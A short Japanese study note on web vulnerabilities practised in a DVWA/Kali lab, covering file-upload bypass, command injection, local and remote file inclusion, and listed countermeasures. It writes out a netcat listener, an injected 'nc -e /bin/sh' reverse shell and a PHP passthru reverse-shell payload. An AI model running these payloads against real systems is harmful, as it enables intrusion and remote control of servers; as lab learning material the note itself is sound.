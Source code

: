 # 脆弱性

- ファイルアップロードの脆弱性：post は許可しないこと。.php は、拡張子を変えて.jpg でいける
- コード実行の脆弱性

## LFI: local file inclusion

### reverse connection

```
// ;は1行で複数コマンド  ls; pwd
// securityをlowにして、code executionで
10.x.x.x; pwd

// netcat：https://blog.denet.co.jp/netcat-command/
// ncはNetCatの略で、Networkをcatenate(連結)するという意味で
// イメージとしてはクライアントとサーバの間に入って繋ぐコマンドです。

// kali terminalでこれを実行中に、
nc -vv -l -p 8080

// kali DVWAのcode execution
10.x.x.x; nc -e /bin/sh 10.x.x.x 8080
```

## RFI: remote file inclusion

- passthru:文字列をコード実行
- reverse connection

```
<?php

passthru("nc -e /bin/sh 10.0.2.4 8080");

?>
```

- 対策

```
1. prevent remote file inclusion
Disable allow_url_fopen & allow_url_include

2. prevent local file inclusion
Use static file inclusion
 => include.php固定にする
```

## SQL injection vulnerabilities

## xSS vulnerabilities
